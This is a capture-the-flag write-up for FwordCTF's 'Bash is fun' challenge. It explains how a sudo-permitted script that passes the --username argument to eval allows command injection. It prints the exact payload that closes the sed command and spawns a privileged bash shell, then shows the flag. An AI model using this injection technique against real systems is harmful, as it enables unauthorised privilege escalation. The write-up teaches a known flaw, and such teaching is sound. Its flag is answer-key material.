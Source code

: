 # Bash is fun
You are provided with an SSH account to server `ssh -p 2222 ctf@funbash.fword.wtf`.

When we get a shell we are in a home directory.
```
$ ls -lha
total 32K
drwxrwxr-t 1 root  user1           4.0K Aug 29 19:29 .
drwxr-xr-x 1 root  root            4.0K Aug 29 19:29 ..
-rw-r--r-- 1 user1 user1            220 May  5  2019 .bash_logout
-rw-r--r-- 1 user1 user1           3.7K May  5  2019 .bashrc
-rw-r--r-- 1 user1 user1            807 May  5  2019 .profile
-rwxr----- 1 root  user-privileged   67 Aug 29 19:08 flag.txt
-rwxr-xr-x 1 root  user-privileged  565 Aug 29 19:08 welcome.sh
-rwxr-xr-x 1 root  root              62 Aug 29 19:08 welcome.txt
```

We are
```
$ id
uid=1000(user1) gid=1000(user1) groups=1000(user1)
```

We can run `sudo -l` to see if we can execute any program with elevated privileges.

```
$ sudo -l
    (user-privileged) NOPASSWD: /home/user1/welcome.sh
```

We can run `welcome.sh` as user `user-privileged`. If we can somehow exploit the script, we can become user`user-privileged` and read the flag in file `flag.txt`.

# `welcome.sh`
```sh
#!/bin/bash
name="greet"
while [[ "$1" =~ ^- && ! "$1" == "--" ]]; do case $1 in
  -V | --version )
    echo "Beta version"
    exit
    ;;
  -n | --name )
    shift; name=$1
    ;;
  -u | --username )
    shift; username=$1
    ;;
  -p | --permission )
     permission=1
     ;;
esac; shift; done
if [[ "$1" == '--' ]]; then shift; fi

echo "Welcome To SysAdmin Welcomer \o/"

eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
export -f $name
isNew=0
if [[ $isNew -eq 1 ]];then
	$name
fi

if [[ $permission -eq 1 ]];then
	echo "You are: " 
	id
fi
```

## The script
In the beggining there are some operations to read our program options.
The only interesting, and most fun :), line of script is.

```sh
eval "function $name { sed 's/user/${username}/g' welcome.txt ; }"
```

Eval is a builtin command that should never be used with user input or user controllable code, as it can be potentialy used to execute any arbitrary code. This is our way of exploiting the script.

Rest of the script is fairly irrelevant for us.

## Exploit
We can use parameter `--username` to inject any code we want to the eval function which will get executed.

We can start with something easy.

```
$ ./welcome.sh --username "#"
```
and script would execute this command
```sh
eval "function $name { sed 's/user/#/g' welcome.txt ; }"
```

Frankly, this doesn't do much.

Now we can potentially craft a command that would read a file or spawn new shell.
In order to run the script as `user-privileged` we have to use `sudo` with option `--user`.

Exploit
```
$ sudo --user=user-privileged ./welcome.sh -u "pwned/g' welcome.txt;};bash #"
```
and script would execute whis command
```sh
eval "function $name { sed 's/user/pwned/g' welcome.txt;};bash #/g' welcome.txt ; }"
```

We successfuly complete `sed` command and end it with `;`. Then we are free to issue any command we like. We use `bash` so spawn a new shell. This shell would be spawned as user `user-privileged` because the script was running under this user. Finally, at the end, we use `#` to comment out the rest of the eval command (very similar to SQL injectino).

## In action
```
$ sudo --user=user-privileged ./welcome.sh -u "pwned/g' welcome.txt;};bash #"
Welcome To SysAdmin Welcomer \o/
$ id
uid=1001(user-privileged) gid=1001(user-privileged) groups=1001(user-privileged)
```

We become user `user-privileged`. Now we can read our flag.

```
$ cat flag.txt
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```
## Flag
**FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}**
